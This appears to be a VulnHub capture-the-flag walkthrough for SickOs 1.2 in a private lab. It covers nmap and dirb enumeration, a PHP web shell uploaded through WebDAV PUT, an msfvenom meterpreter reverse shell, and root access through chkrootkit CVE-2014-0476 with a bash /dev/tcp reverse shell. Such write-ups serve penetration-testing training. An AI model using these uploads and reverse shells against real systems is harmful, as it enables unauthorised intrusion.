 # SickOs-1.2
SickOs 1.2 - VulnHub Walkthrough
This is a walkthrough of the SickOs 1.2 machine from VulnHub. It’s the sequel to SickOs 1.1, and it's both more challenging and more realistic, simulating situations one might encounter during a real-world penetration test.

**🔍 Discovery**
After downloading and running the machine, we see that it was assigned the IP 192.168.2.4. A port scan using nmap reveals ports 80 (HTTP) and 22 (SSH) open.
**>Target IP: 192.168.2.4**
**>Initial Scan:**
<pre>
nmap -A -T5 192.168.2.4
root@kali:~/sickos2# nmap -A -T5 192.168.2.4

PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
| 2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_ 256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)
80/tcp open http lighttpd 1.4.28
|_http-server-header: lighttpd/1.4.28
|_http-title: Site doesn't have a title (text/html).
OS details: Linux 3.2 - 4.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>
**Open Ports:**

**22/tcp:** SSH (OpenSSH 5.9p1)
**80/tcp:** HTTP (lighttpd 1.4.28)

**🌐 Web Enumeration**
We open a web browser, browse to http://192.168.2.4 and see the following page

The usage of **dirb** reveals the listable directory **/test.**
<pre>
root@kali:~/sickos2# dirb http://192.168.2.4
---- Scanning URL: http://192.168.2.4/ ----
+ http://192.168.2.4/index.php (CODE:200|SIZE:163) 
==> DIRECTORY: http://192.168.2.4/test/

/index.php
/test/   ← Listable directory
</pre>

**WebDAV Detection**

Making a HTTP OPTIONS request on this path shows that **/test** looks like a WebDAV directory.

<pre>
root@kali:~/sickos2# curl --head -X OPTIONS 192.168.2.4/test/
HTTP/1.1 200 OK
DAV: 1,2
MS-Author-Via: DAV
Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
Allow: OPTIONS, GET, HEAD, POST
Content-Length: 0
Date: Thu, 15 Jun 2024 16:32:35 GMT
Server: lighttpd/1.4.28
</pre>
Supports PUT, confirming WebDAV is enabled.

**🛠 Exploitation (Web Shell Upload)**
We also note that the web server seems to accept HTTP PUT requests. The PUT method should allow us to upload arbitrary files on the web server. Let’s try it out. We create a file named **shell.php** containing the following code:
<pre>
<?php
echo shell_exec("id");
?>
</pre>

Upload using:
<pre>
  curl -v -X PUT -H "Expect: " 192.168.2.4/test/shell.php -d@shell.php
</pre>
Browse to /test/shell.php to confirm code execution as www-data.


**🧠 Reverse Shell with Meterpreter**

Now that we know we can upload arbitrary PHP scripts and execute them, let’s try to spawn a shell on the machine. We use msfvenom to generate the appropriate payload.
<pre>
  root@kali:~/sickos2# msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.2.3 LPORT=4444 > shell.php
</pre>
Note that 192.168.2.3 is the IP of our Kali box, where we will listen for the incoming reverse shell. Using the same command as before, we start by uploading this script on the server.
<pre>
root@kali:~/sickos2# curl -v -X PUT -H "Expect: " 192.168.2.4/test/shell.php -d@shell.php
</pre>

Start **Metasploit listener**:
To catch our reverse shell.
<pre>

root@kali:~/sickos2# msfconsole
msf > use exploit/multi/handler
msf exploit(handler) > set LHOST 192.168.2.3
LHOST => 192.168.2.3
msf exploit(handler) > set LPORT 4444
LPORT => 4444
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(handler) > run

[*] Started reverse TCP handler on 192.168.2.3:4444 
[*] Starting the payload handler...

</pre>

Then, from another terminal, we trigger the PHP script that will connect back to our attacking machine.
<pre>
  root@kali:~/sickos2# curl 192.168.2.4/test/shell.php
  > ls
execute.php
shell.php
> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>

**📈 Privilege Escalation**
Check installed packages:**chkrootkit** is present (v0.49)

Vulnerable to **CVE-2014-0476**

Exploiting CVE-2014-0476
Write to /tmp/update:
<pre>
#!/bin/bash
bash -i >& /dev/tcp/192.168.2.3/443 0>&1
</pre>  
Make it executable:
<pre
  chmod +x /tmp/update
</pre>
Start listener:
<pre>
  nc -lvp 443
</pre>
Since chkrootkit seems to only run daily, we expect to have to wait until the next day to obtain a root shell. Surprisingly, it comes to us after a few minutes like an early Christmas present
We can now get the flag, located in the /root directory.
**🏁 Getting the Flag**
<pre>
  cat /root/7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
</pre>
**🔐 Firewall Rules (/root/newRule)**
<pre>
  INPUT: DROP (only allows ports 22, 80)
OUTPUT: DROP (allows outbound 443, 8080)
</pre>
**⏱ Chkrootkit Cron Schedule**
Despite being in /etc/cron.daily/, it also exists in:
<pre>
/etc/cron.d/chkrootkit  
</pre>

<pre>
**Summary**
| Phase           | Technique Used                               |
| --------------- | -------------------------------------------- |
| Enumeration     | Nmap, Dirb, WebDAV detection                 |
| Initial Access  | PUT PHP file upload                          |
| Reverse Shell   | Meterpreter + Netcat fallback                |
| Firewall Bypass | Netcat-based port scanning                   |
| PrivEsc         | CVE-2014-0476 via chkrootkit & cron abuse    |
| Root Access     | Netcat listener + shell script               |
| Flag            | `/root/7d03aaa2bf93d80040f3f22ec6ad9d5a.txt` |

</pre>












